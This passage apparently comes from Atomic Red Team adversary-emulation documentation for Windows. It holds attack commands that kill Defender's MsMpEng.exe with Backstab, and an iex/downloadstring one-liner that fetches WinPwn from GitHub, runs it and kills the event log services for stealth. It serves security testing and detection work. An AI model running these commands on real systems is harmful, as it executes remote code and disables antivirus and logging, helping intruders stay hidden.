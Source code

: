 **auto_generated_guid:** 24a12b91-05a7-4deb-8d7f-035fa98591bc

#### Inputs:

| Name         | Description                                               | Type   | Default Value |
| ------------ | --------------------------------------------------------- | ------ | ------------- |
| process_name | Name of the protected process you want to kill/terminate. | string | MsMpEng.exe   |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
& "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe" -k -n #{process_name}
```

#### Dependencies: Run with `powershell`!

##### Description: Backstab64.exe should exist in ExtrnalPayloads Directory

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/Yaxser/Backstab/releases/download/v1.0.1-beta/Backstab64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe"
```

<br/>
<br/>

## Atomic Test #30 - WinPwn - Kill the event log services for stealth

Kill the event log services for stealth via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 7869d7a3-3a30-4d2c-a5d2-f1cd9c34ce66

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
inv-phantom -consoleoutput -noninteractive
```

<br/>
<br/>
